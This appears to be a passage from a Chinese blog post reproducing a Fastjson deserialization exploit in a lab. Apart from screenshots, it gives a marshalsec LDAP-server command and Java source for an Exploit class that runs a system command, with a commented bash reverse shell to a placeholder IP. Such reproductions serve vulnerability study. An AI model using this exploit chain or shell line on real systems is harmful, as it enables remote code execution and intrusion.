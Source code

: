 ![](https://img-blog.csdnimg.cn/a8524ed43bfb4d23999d84ca99143b64.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASXdhbnR1cm9vdA==,size_20,color_FFFFFF,t_70,g_se,x_16)

post请求：

![](https://img-blog.csdnimg.cn/e0cd952100a249e2893f03439cd8508c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASXdhbnR1cm9vdA==,size_20,color_FFFFFF,t_70,g_se,x_16)

然后传入我们构造的payload:

![](https://img-blog.csdnimg.cn/e229e0f363784fc2b3bf5b105e551930.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASXdhbnR1cm9vdA==,size_20,color_FFFFFF,t_70,g_se,x_16)

在操作前记得先搭建好ldap服务器，使用的工具是marshalsec，可以在gihub上找到，命令是：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1/#Exploit" 6666
```

当靶机访问该服务器的时候，会被重定向到本机的80端口上访问Exploit.class文件，Exploit.java文件中的内容为：

```java
import java.io.BufferedReader;import java.io.InputStream;import java.io.InputStreamReader;public class Exploit{    public Exploit() throws Exception {        Process p = Runtime.getRuntime().exec(new String[]{"cmd","/c","calc.exe"});      //Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/xx.xx.xx.xx/1888;cat <&5 | while read line; do $line 2>&5 >&5; done"});        InputStream is = p.getInputStream();        BufferedReader reader = new BufferedReader(new InputStreamReader(is));        String line;        while((line = reader.readLine()) != null) {            System.out.println(line);        }        p.waitFor();        is.close();        reader.close();        p.destroy();    }    public static void main(String[] args) throws Exception {    }}
```

执行了打开计算机的命令，但我的操作并没有打开计算机，据说是应为jdk版本的原因。详情见： [Fastjson反序列化漏洞利用](https://www.jianshu.com/p/35b84eda9292) 参考文章： [fastjson反序列化漏洞复现](https://www.cnblogs.com/nice0e3/p/14601670.html#0x02-fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0) [Fastjson反序列化漏洞利用](https://www.jianshu.com/p/35b84eda9292)